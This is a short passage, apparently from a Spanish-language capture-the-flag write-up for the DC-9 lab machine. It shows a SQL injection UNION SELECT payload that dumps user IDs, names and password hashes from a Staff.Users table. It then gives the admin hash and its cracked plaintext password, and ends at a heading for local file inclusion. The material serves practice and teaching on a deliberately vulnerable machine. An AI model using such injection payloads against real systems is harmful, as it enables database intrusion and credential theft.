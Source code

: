 ![columnas1](../assets/imgs/dc9/columnas1.png)

##### Registro de tablas Users

```
' UNION SELECT concat(UserID,0x3a,Username,0x3a,Password),2,3,4,5,6 FROM Staff.Users-- -
1:admin:856f5de590ef37314e7c3bdf6f8a66dc
```

![pass.png](../assets/imgs/dc9/pass.png)

Obteniendo la contraseña de `admin`

![pass2](../assets/imgs/dc9/pass2.png)

```
admin : transorbital1
```

#### LFI
